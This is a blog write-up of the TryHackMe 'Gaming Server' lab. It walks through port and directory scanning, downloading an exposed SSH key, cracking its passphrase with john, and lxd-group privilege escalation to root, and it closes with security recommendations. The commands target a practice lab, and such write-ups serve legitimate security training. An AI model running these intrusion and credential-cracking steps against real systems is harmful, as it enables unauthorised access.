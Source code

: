 ```yaml
---
layout: post
title:  "[THM walkthrough] - Gaming Server"
date:   2021-05-02 20:29:00 +0300
tags: tryhackme easy writeup walkthrough
categories: tryhackme
---
```

**Room URL**: <https://tryhackme.com/room/gamingserver>

**Difficulty**: Easy

## RECONNAISSANCE

I first started out by scanning the target for open ports and the services running on them.

```
$ nmap -vv -n -Pn -sV -oN services.nmap 10.10.189.82
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 17:13 EAT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 17:14
Scanning 10.10.189.82 [1000 ports]
Discovered open port 80/tcp on 10.10.189.82
Discovered open port 22/tcp on 10.10.189.82
Increasing send delay for 10.10.189.82 from 0 to 5 due to 31 out of 102 dropped probes since last increase.
Increasing send delay for 10.10.189.82 from 5 to 10 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.189.82 from 10 to 20 due to max_successful_tryno increase to 5
Connect Scan Timing: About 24.06% done; ETC: 17:16 (0:01:38 remaining)
Completed Connect Scan at 17:15, 89.15s elapsed (1000 total ports)
Initiating Service scan at 17:15
Scanning 2 services on 10.10.189.82
Completed Service scan at 17:15, 9.96s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.189.82.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 17:15
Completed NSE at 17:15, 2.71s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 17:15
Completed NSE at 17:15, 2.70s elapsed
Nmap scan report for 10.10.189.82
Host is up, received user-set (0.29s latency).
Scanned at 2021-05-02 17:14:00 EAT for 104s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE    SERVICE       REASON      VERSION
22/tcp   open     ssh           syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          syn-ack     Apache httpd 2.4.29 ((Ubuntu))
1113/tcp filtered ltp-deepspace no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.00 seconds
```

Since port 80 was running a web server (Apache), I decided to visit the HTTP service using a browser.

![Home page](/assets/thm/gamingserver/home-page.png)

After browsing around the site, I discovered an `/uploads/` folder with interesting content.

![Uploads folder](/assets/thm/gamingserver/uploads-folder.png)

I decided to download the content and investigate them.

**manifesto.txt**: very inspirational, but for the purpose of the exercise, I could only pick out a possible username 'The Mentor' as something useful.

**dict.lst**: a possible list of passwords for bruteforcing something.

**meme.jpg**: funny, but possibly hiding some steg information. After running steghide (with the `dict.lst` file) and stegoveritas on it, I realised there was nothing there after all.

After more reconnaissance, I discovered the index page had something interesting at the bottom of it's source code.

```
<snip of index.html>
</body>
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
</html>
```

So it seemed that `john` was a more likely possible username.

After this, I decided to bruteforce the website's directories with GoBuster to find if some were hidden.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.189.82 -o dirs
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.189.82
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/02 18:01:54 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]  
/secret               (Status: 301) [Size: 313] [--> http://10.10.189.82/secret/]
/server-status        (Status: 403) [Size: 277]                                  
/uploads              (Status: 301) [Size: 314] [--> http://10.10.189.82/uploads/]

===============================================================
2021/05/02 18:05:57 Finished
===============================================================
```

In the `/secret/` directory, there was an SSH secret key file. This would be my way into the target.

![secret folder](/assets/thm/gamingserver/secret-folder.png)

## USER SHELL ACCESS

I proceeded to download the secret key file, transformed it to a proper format that `john` can recognise (with `ssh2john`) and then bruteforced it's passphrase using `john` and the `dict.lst` file.

```
$ wget http://10.10.189.82/secret/secretKey
$ chmod 600 secretKey
$ /usr/share/john/ssh2john.py secretKey > secretKey.hash
$ john --wordlist=dict.lst secretKey.hash > secretKey.pass
```

Once the passphrase was obtained and knowing that port 22 (running SSH) was open, I logged into the target via SSH as john and acquired the user flag in `user.txt` as required.

![Logging in as John](/assets/thm/gamingserver/login-as-john.png)

## PRIVILEGE ESCALATION

Uploading the linpeas script here: <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>, to the target, I used it to scope what ways I could achieve root privileges.

I found that the `john` user was in the `lxd` group.

```
john@exploitable:~$ groups
john adm cdrom sudo dip plugdev lxd
```

Using this knowledge, I created a container image, uploaded it to the target, created a container from it and mounted the target's root file system on it so as to interact with it as "root" through the container when running it in a privileged state. The steps I followed can be found here: <https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2>

![lxd privilege escalation](/assets/thm/gamingserver/lxd-priv-esc.png)

From there, I proceeded to find the root flag in `root.txt` as required.

```
~ # cd /mnt/root/root
/mnt/root/root # ls -lath
total 32
drwx------    3 root     root        4.0K Feb  5  2020 .
-rw-------    1 root     root          42 Feb  5  2020 .bash_history
-rw-------    1 root     root        1.1K Feb  5  2020 .viminfo
-rw-r--r--    1 root     root          33 Feb  5  2020 root.txt
drwxr-xr-x   24 root     root        4.0K Feb  5  2020 ..
drwx------    2 root     root        4.0K Feb  5  2020 .ssh
-rw-r--r--    1 root     root        3.0K Apr  9  2018 .bashrc
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
/mnt/root/root # cat root.txt
```

## FINAL THOUGHTS

### My Security Recommendations

- Web security
  - Enforce thorough code review before deploying a web app, even if it's for testing purposes. Comments in code can give adversaries added information to use in their attack vectors.
  - Ensure sensitive files and folders are not exposed by the web app. This could be achieved by chrooting the web app to a particular directory or implementing jails.
    - <https://en.wikipedia.org/wiki/FreeBSD_jail>
    - <https://flylib.com/books/en/1.275.1.77/1/>

- Container security
  - Implement MAC (SElinux or AppArmor) and drop capabilities for non-admin users on lxc.
    - <https://www.section.io/engineering-education/getting-started-with-linux-container-security/>
  - Enforce use of unprivileged containers by default
  - Only secured administrative accounts should be added to `lxd/lxc` groups
